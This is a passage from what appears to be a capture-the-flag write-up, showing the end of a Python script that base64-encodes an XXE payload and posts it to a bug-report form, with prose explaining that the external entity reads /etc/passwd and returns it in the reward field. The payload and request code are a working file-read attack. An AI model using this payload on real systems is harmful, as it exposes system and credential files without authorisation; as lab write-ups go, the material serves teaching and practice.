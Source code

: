 ```python
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "{exploit}"> ]>
<bugreport>
<title>XXE</title>
<cwe>INJECTION</cwe>
<cvss>FOUND</cvss>
<reward>&xxe;</reward>
</bugreport>
"""

# Do a post request on the page, with base64 encoded "data" parameter
r = requests.post(host , data= {"data" : base64.b64encode(payload.encode())})
print(r.text)
```

This script will basically try to create an external entity called `xxe` which in this case will try to read the `/etc/passwd` file. We will then call this external entity on the `<reward>` tag with `&xxe;`.

Run the script and we get `/etc/passwd` on the `reward` tag as expected.

![xxe](./img/xxe.png)
